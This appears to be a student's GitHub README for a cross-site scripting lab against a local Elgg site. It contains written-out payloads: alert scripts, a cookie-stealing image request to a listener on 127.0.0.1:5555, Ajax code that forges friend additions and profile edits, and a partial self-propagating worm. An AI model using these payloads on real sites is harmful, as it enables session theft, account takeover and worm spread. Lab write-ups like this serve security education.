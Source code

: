 # cross-site-scripiting-xxs-lab-attack-
here is the detailed git repo of xxs lab attack 
# lab adress 
URL: http://www.xsslabelgg.com
Folder: /var/www/XSS/Elgg/

Task 1: Posting a Malicious Message to Display an Alert Window
# script        
     <script>alert(’This is an attack’);</script>

 ![task1](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/task%201%20alert.png)

     script for showing alert
     <script type="text/javascript"
    src="http://www.loalhost/myscripts.js">
    </script>

 ![task](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/showing%20attack.png)
![task](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20showing%20alert.png)


Task 2: Posting a Malicious Message to Display Cookies
script for showing cookies   
                 
                 <script>alert(document.cookie);</script>
 ![task2](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20cookies.png)

# Task 3: Stealing Cookies from the Victim’s Machine
 #script for stealing cookies from victm mechine 
        
        <script>document.write(’<img src=http://127.0.0.1:5555?c=’
      + escape(document.cookie) + ’ >’);
      </script>

 ![task3](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20stealing%20cookies.png)
 
 # Task 4: Becoming the Victim’s Friend
               script for becoming victoms friend 
                          
                          <script type="text/javascript">
                  window.onload = function () {
                             var Ajax=null;
                  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
           var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
           //Construct the HTTP request to add Samy as a friend.
           var sendurl=...; //FILL IN
          //Create and send Ajax request to add friend
           Ajax=new XMLHttpRequest();
          Ajax.open("GET",sendurl,true);
         Ajax.setRequestHeader("Host","www.xsslabelgg.com");
         Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
         Ajax.send();
          }
        </script>
![task4](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/add%20friends%20to%20aice.png)
 
 
 

Task 5: Modifying the Victim’s Profile
#script for modifiying victoms profile 

          <script type="text/javascript">
            window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
            
            var userName=elgg.session.user.name;
          var guid="&guid="+elgg.session.user.guid;
         var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
          var token="&__elgg_token="+elgg.security.token.__elgg_token;
         //Construct the content of your url.
           var content=...; //FILL IN
           var samyGuid=...; //FILL IN
         if(elgg.session.user.guid!=samyGuid) ➀
       {
         //Create and send Ajax request to modify profile
           var Ajax=null;
         Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
          Ajax.setRequestHeader("Content-Type",
          "application/x-www-form-urlencoded");
          Ajax.send(content);
         }
          }
      </script>

![task5](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/editing%20friends%20profile.png)


Task 6: Writing a Self-Propagating XSS Worm

# link approach 
           <script type="text/javascript" src="localhost.com/xss_worm.js">
             </script>

# Dom approach
            <script id=worm>
             var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ➀
            var jsCode = document.getElementById("worm").innerHTML; ➁
            var tailTag = "</" + "script>"; ➂
                var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); ➃
             alert(jsCode);
          </script>

 
 
 
 
 





